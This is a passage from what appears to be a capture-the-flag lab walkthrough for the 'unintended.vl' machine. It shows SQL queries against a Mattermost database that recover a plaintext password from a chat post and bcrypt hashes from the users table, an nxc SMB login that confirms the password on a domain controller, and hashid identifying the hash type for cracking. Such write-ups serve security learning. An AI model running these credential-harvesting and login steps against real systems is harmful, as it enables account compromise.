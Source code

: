 ```sql
 public | tokens                           | table | mmuser
 public | trueupreviewhistory              | table | mmuser
 public | uploadsessions                   | table | mmuser
 public | useraccesstokens                 | table | mmuser
 public | usergroups                       | table | mmuser
 public | users                            | table | mmuser
 public | usertermsofservice               | table | mmuser
(97 rows)
```

In the `posts` table we find a new potential password:

```sql
mattermost=# select message from posts;
...
 Here, `<ABBIE_PASS>`, change it to one you can actually *remember*, and please make sure you do so lol I have way more important things to do than resetting your passwords  :joy:
```

It works as abbie's domain password:

```shell-session
└─$ nxc smb dc -u abbie -p <ABBIE_PASS>   
SMB         10.10.156.133   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
SMB         10.10.156.133   445    DC               [+] unintended.vl\abbie:<ABBIE_PASS>
```

Another method is to try to crack abbie's hash:

```sql
mattermost=# select email,password from users;
          email          |                           password                           
-------------------------+--------------------------------------------------------------
 channelexport@localhost | 
 feedbackbot@localhost   | 
 appsbot@localhost       | 
 calls@localhost         | 
 playbooks@localhost     | 
 boards@localhost        | 
 system-bot@localhost    | 
 juan@unintended.vl      | $2a$10$XVsJbRoMGb3NmEkOV2bVhuaf2zf2U90z1BH1LR5.9EVphcIClf7aa
 cartor@unintended.vl    | $2a$10$1LN52Ej8HDksuM51/a6yDeLEQsw5F6pOQRYNxNQZEGezBreDaMRC.
 abbie@unintended.vl     | $2a$10$2INgG1HdPQqqvv/.ljUi/uQb5FGfKxRiYWCoZWUZI1ZIeOE0aV0mu
(10 rows)
```

```shell-session
└─$ hashid -m '$2a$10$2INgG1HdPQqqvv/.ljUi/uQb5FGfKxRiYWCoZWUZI1ZIeOE0aV0mu'                        
Analyzing '$2a$10$2INgG1HdPQqqvv/.ljUi/uQb5FGfKxRiYWCoZWUZI1ZIeOE0aV0mu'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
